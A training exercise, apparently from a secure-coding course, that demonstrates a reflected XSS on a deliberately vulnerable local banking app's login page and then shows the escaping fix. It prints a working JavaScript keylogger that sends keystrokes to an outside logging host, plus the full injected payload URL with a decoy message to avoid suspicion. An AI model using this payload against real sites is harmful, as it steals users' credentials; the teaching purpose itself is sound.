

# Exercise 2 - Stealing Credentials with XSS

This exercise is to help you understand how an XSS vulnerability on a login page can be used to install a key-logger and steal your credentials.

## Setup and Start Applications

1. Start the application in debug mode
   * start the Maven configuration for the launch configuration "v-bank run and build" in DEBUG mode (with the green BUG icon next to the arrow;
   you should have created it as described in IntelliJSetup.md)
1. Open v-bank application and DO NOT log in 
   1. Open http://localhost:8080/ in the browser

## Check for XSS vulnerability. 
Hints:
   * All pages including the login page contain a reflect XSS vulnerability
   * The name of the vulnerable request parameter is __info__
   * Try : http://localhost:8080/login?info=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E  <br/>
   Please note that that the above is the URL encoded version of:
``` http://localhost:8080/login?info=<script>alert('XSS')</script>```

## Carft URL deploying keylogger

So we need to craft a URL with a script tag installing a keylogger into he HTML page instead of the _&lt;script&gt;alert('XSS')&lt;/script&gt;_  

There is a benign keylogger implementation in http://sprg-tools.el.eee.intern/js/stealcreds.js; the name of the function is _installKeylogger_

```javascript
function installKeylogger(cat) {
    category = cat ? cat : 'me';
    document.onkeypress = function (e) {
        var timestamp = Date.now() | 0;
        var stroke = {
            k: e.key,
            t: timestamp
        };
        buffer.push(stroke);
    }
    window.console.log('keylogger installed.');
    window.setInterval(function () {
        if (buffer.length > 0) {
            sendToLogService(buffer);
            buffer = [];
        }
    }, 200);
}

function sendToLogService(jsondata) {
    var data = encodeURIComponent(JSON.stringify(jsondata));
    var url = urlroot + '/log/' + category + '/' + data;
    new Image().src = url;
    window.console.log('data sent, url : ' + url);
} 
```
As you may see it makes log statements, so that you can verify in Chrom DevTool's JavaScript Console if it was installed and keystrokes were sent.
This is only for your understanding, in a real key-logger there are no such DEV features :)

The HTML snippet to load the script and install the key-logger is:   
```<script src='http://sprg-tools.el.eee.intern/js/stealcreds.js'></script><script>installKeylogger()</script>```   

You should pass it to the login page with the _info_ request parameter:
Link: http://localhost:8080/login?info=Welcome%20back!%3Cscript%20src=%27http://sprg-tools.el.eee.intern/js/stealcreds.js%27%3E%3C/script%3E%3Cscript%3EinstallKeylogger()%3C/script%3E  
Which is the URL encoded form of: ```http://localhost:8080/login?info=Welcome back!<script src='http://sprg-tools.el.eee.intern/js/stealcreds.js'></script><script>installKeylogger()</script>```  
  
>Please note the "Welcome back!" message. This is to avoid displaying an empty message box, which might be suspicious.

## Fall Victim to the keylogger
Please open the above page with the XSS payload installing the script and TYPE something into the username and login fields. 

## Check logged keystrokes
The key-logger sends keystrokes to a simple web service at http://sprg-tools.el.eee.intern/log/me
If you open the same URL with the browser it should display keystrokes sent from your IP address.

## Fix 

The vulnerability is in the _page.tag_ template file, which a decorator user by all pages of the application.  
It is because between lines 45 and 54 the variables _error_ and _info_ are written into the generated HTML without HTML/XML escaping.  
```xml
    <c:if test="${not empty error}">
        <div class="container">
          <div class="row alert alert-danger" role="alert">${error}</div>
        </div>
    </c:if>
    <c:if test="${not empty info}">
        <div class="container">
            <div class="row alert alert-info" role="alert">${info}</div>
        </div>
    </c:if>
```
To fix this you need to wrap the `${error}` and `${info}` expressions into a special tag that enables escaping. They will be is `<c:out value='${error}' escapeXml='true' />` and `<c:out value='${info}' escapeXml='true' />`, respectively.
```xml
    <c:if test="${not empty error}">
        <div class="container">
          <div class="row alert alert-danger" role="alert"><c:out value='${error}' escapeXml='true' /></div>
        </div>
    </c:if>
    <c:if test="${not empty info}">
        <div class="container">
            <div class="row alert alert-info" role="alert"><c:out value='${info}' escapeXml='true' /></div>
        </div>
    </c:if>
```
### Verify fix
Please stop and start the application again and open the links:
* http://localhost:8080/login?info=Welcome back!<script src='http://sprg-tools.el.eee.intern/js/stealcreds.js'></script><script>installKeylogger()</script> 
Now no popup should be displayed. And you should see html code in the browser
